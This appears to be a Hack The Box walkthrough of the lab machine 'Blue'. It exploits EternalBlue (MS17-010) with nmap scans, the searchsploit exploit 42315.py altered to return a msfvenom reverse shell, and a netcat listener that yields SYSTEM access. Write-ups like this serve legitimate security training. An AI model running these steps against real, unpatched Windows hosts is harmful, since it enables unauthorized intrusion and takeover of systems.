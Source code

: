 <p align="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/86ee30d6-5fc7-4c3f-8844-d35480574798">
</p>

<h1 align="center">Blue</h1>

<h2>Intro</h2>

<p>In this walkthrough we are going to talk about the machine <strong>Blue</strong>, it's an easy machine. We are going to me exploiting MS17-010, or Eternal Blue.
EternalBlue is a cyberattack exploit developed by the NSA that targets a vulnerability in Microsoft's SMB protocol. Its purpose is to gain unauthorized access to Windows computers. It had a significant impact, being used in major cyberattacks like WannaCry and NotPetya, causing widespread disruption and damage globally.
You can get more info about it here:
</p>

<a href="https://www.sentinelone.com/blog/eternalblue-nsa-developed-exploit-just-wont-die/" style="text-align: center; display: block;">
  EternalBlue Exploit: What It Is And How It Works
</a>


<h2>Walkthrough</h2>

<h3>Recon and ennumeration</h3>

<p>As always we start by doing a fast TCP SYN scan with nmap</p>

<pre>nmap -p- -v -sS -Pn -f -n --min-rate 5000 --open 10.10.10.40 -oG allPorts</pre>

<ul>
  <li><strong>-p-</strong>: we are specifying that we want as many ports as possible to be scanned<li>
  <li><strong>-v</strong>: gives me a more detailed output during the scan</li>
  <li><strong>-sS</strong>: here we specify that we are doing a TCP SYN scan, it's faster than a full TCP scan, at the moment we just want to check the ports</li>
  <li><strong>-Pn</strong>: this flag is set to disable host discovery. It is used when the target does not respond to pings</li>
  <li><strong>-n</strong>: disables DNS resolution, this flag gives us more speed in the scan by avoiding resolving hostname, we will check that later</li>
  <li><strong>--min-rate 5000</strong>: with this flag, we are setting the minimum packet sending rate to 5000 packets per second, it makes the scan faster</li>
  <li><strong>--open</strong>: here we are specifying that we only want to show in the scan result the ports that are open</li>
  <li><strong>-oG allPorts</strong>: I am saving the scan result in a grepeable file called allPorts</li>
</ul>

<p align="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/7924a960-3d1d-4f37-bfb5-1b8408b72992">
</p>

<p>We can see that port 445, we are going to do a more thorough scan of the ports to see if we find anything else but, at this point we should directly throw the script that shows if it is vulnerable to MS17-010. Whenever we look at port 445 and see that the system is a Windows XP to Windows Server 2016 system we should check if it is vulnerable to EternalBlue.</p>

<pre>nmap -p135,139,445 -v -Pn -n --min-rate 5000 --open -sCV 10.10.10.40 -oN targeted</pre>

<ul>
  <li><strong>-sC</strong>: It runs default scripts to get more info about our target. Uses common scripts for common vulns</li>
  <li><strong>-sV</strong>: this flag will return the version of the service that is on the open port</li>
  <li><strong>-oN targeted</strong>: this flag outputs the scan on a file named targeted. has a more comprehensible result</li>
</ul>

<p>
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/1d76b40b-5bb6-4735-9674-b4c0cdc92a40">
</p>

<pre>nmap -p445 --script smb-vuln-ms17-010 10.10.10.40</pre>

<ul>
  <li><strong>--script</strong>:  is used to specify Nmap scripts</li>
</ul>

<p align="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/d1838ef7-7f55-4a1a-8297-af5ceca9dda2">
</p>

<p>Yep, it's vulnerable to MS17-010!</p>

<h2>Getting inside</h2>

<p>Here we already know that it's vulnerable to EternalBlue, so let's use <strong>searchsploit</strong> to check if Kali has something to deal with it (Kali obviously has tools for it 😄)</p>

<pre>searchsploit ms17-010</pre>

<p align="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/b54562df-0d78-47e9-a4d5-50bbb31d6bc1">
</p>

<p>We can see a few scripts, the one that has helped me is the script 42315.py. So in the directory we are working in, we do the following to bring us the script</p>

<pre>searchsploit -m windows/remote/42315.py</pre>

<ul>
  <li><strong>-m</strong>: this flag will tell searchsploit to move/copy the script to the current directory</li>
</ul>

<p><strong>IMPORTANT:</strong> I've got some problems with this script becouse it's quite old and it's using Python 2.7, here it is what I've done to make it work:</p>

<ol>
  <li>
    <p>sudo apt update</p>
    <p>sudo apt install build-essential libssl-dev libffi-dev python2 python2-dev</p>
  </li>
  <li>
    <p>curl https://bootstrap.pypa.io/pip/2.7/get-pip.py -o get-pip.py</p>
    <p>sudo python2.7 get-pip.py</p>
  </li>
  <li>
    <p>git clone https://github.com/SecureAuthCorp/impacket.git</p>
    <p>cd impacket</p>
  </li>
  <li>git checkout impacket_0_9_22</li>
  <li>sudo pip2 install -r requirements.txt</li>
  <li>sudo python2.7 setup.py install</li>
  <li>pip install pyasn1 pycryptodomex</li>
</ol>

<p>You can also try to clone mysmb.py instead of the whole impacket git, but this is how it worked for me</p>

<p><strong>ALSO IMPORTANT:</strong> I was also looking at the script code and, you have to add or uncomment the two lines below the lines I have added in the smb_pwn() function, this function is just uploading a .txt right now, what we are looking for is to return a reverse shell, so let's prepare it with msfvenom</p>

<p aling="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/ad2d380a-7c08-4554-86f5-b6e3013e921b">
</p>

<p aling="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/392d1791-9b40-4a56-b08d-924d72eb7bee">
</p>

<p aling="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/946a71e5-1003-46ca-ab63-e58ee6708104">
</p>

<p>And now if we prepare a listener with <strong>Netcat</strong> and execute the python script we are in! Also we are authority\system already! 😄</p>

<pre>nc -lnvp 1234</pre>

<pre>python2 42315.py 10.10.10.40</pre>

<p align="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/c62aaea8-fd4b-41b1-a515-292594b428bc">
</p>

<p>So we can get both flags!</p>

<p align="center">
  <img src="https://github.com/Warrior9912/Hack-the-Box-Walkthroughs/assets/34217036/de58a251-53c5-4a43-83b4-fca57711af26">
</p>

<p>This machine has been interesting to make, I have learned something more about EternalBlue. Be nice!</p>
